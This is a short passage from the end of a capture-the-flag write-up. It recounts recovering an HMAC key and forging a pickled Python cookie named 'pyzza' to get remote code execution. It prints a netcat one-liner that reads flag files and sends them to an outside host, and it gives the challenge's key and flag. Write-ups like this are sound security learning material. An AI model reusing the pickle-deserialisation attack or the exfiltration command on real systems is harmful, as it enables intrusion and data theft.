 
Eventually we recovered the whole secret HMAC key `3y0y3y0y3y0y3!`. Having the HMAC key allows us to serialize any python object and send it inside the `pyzza` cookie to be deserialized by the server. This provides an easy way to achieve RCE. A simple google search led us to this [script](https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd) and using the payload `cat /*/*/*flag* | nc myserver 80` we obtained the flag:

    flag{c0w4bung4_p1zz4T1M3}

This was a really fun challenge, thanks to the creators and see you next year again ;-)


![yummy](http://www.pizzalalupa.de/upload/hawaii.png){: width="100%"}
